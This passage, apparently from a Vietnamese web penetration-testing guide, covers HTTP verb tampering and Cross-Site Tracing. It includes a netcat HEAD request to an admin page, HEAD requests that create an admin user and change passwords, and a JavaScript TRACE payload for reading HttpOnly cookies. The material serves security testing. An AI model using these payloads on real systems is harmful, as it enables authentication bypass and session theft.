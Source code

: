     ```
    $ nc www.example.com 80
    HEAD /admin HTTP/1.1
    Host: www.example.com

    HTTP/1.1 200 OK
    Date: Mon, 18 Aug 2008 22:44:11 GMT
    Server: Apache
    Set-Cookie: PHPSESSID=pKi...; path=/; HttpOnly
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Set-Cookie: adminOnlyCookie1=...; expires=Tue, 18-Aug-2009 22:44:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie2=...; expires=Mon, 18-Aug-2008 22:54:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie3=...; expires=Sun, 19-Aug-2007 22:44:30 GMT; domain=www.example.com
    Content-Language: EN
    Connection: close
    Content-Type: text/html; charset=ISO-8859-1
    ```

    Nếu test thấy "405 Method not allowed" hoặc "501 Method Unimplemented", nếu mã phản hồi "200" xuất hiện trở lại và phản hồi không chứa nội dung nào, thì có khả năng ứng dụng đã xử lý yêu cầu mà không cần xác thực hoặc ủy quyền và cần phải kiểm tra thêm.

    Nếu tester cho rằng hệ thống dễ bị ảnh hưởng bởi vấn đề này, họ nên thực hiện các cuộc tấn công giống như CSRF để khai thác vấn đề đầy đủ hơn:

    ```
    HEAD /admin/createUser.php?member=myAdmin
    HEAD /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
    HEAD /admin/groupEdit.php?group=Admins&member=myAdmin&action=add
    ```

**Tools**

NetCat - http://nc110.sourceforge.net
cURL - http://curl.haxx.se/
nmap http-methods NSE script - https://nmap.org/nsedoc/scripts/http-methods.html

##### Example report

Ví dụ về XST:

Trang web target bị dính lỗ hổng XSS nhưng cho HttpOnly được bật nên cookie không thể được lấy ra bằng javascript thông thường.

Sử dụng payload bê trên với TRACE method để có thể lấy được cookie:
```html
<script>
  var xmlhttp = new XMLHttpRequest();
  var url = 'https://test.lab/';

  xmlhttp.withCredentials = true; // send cookie header
  xmlhttp.open('TRACE', url, false);
  xmlhttp.send();
</script>
```
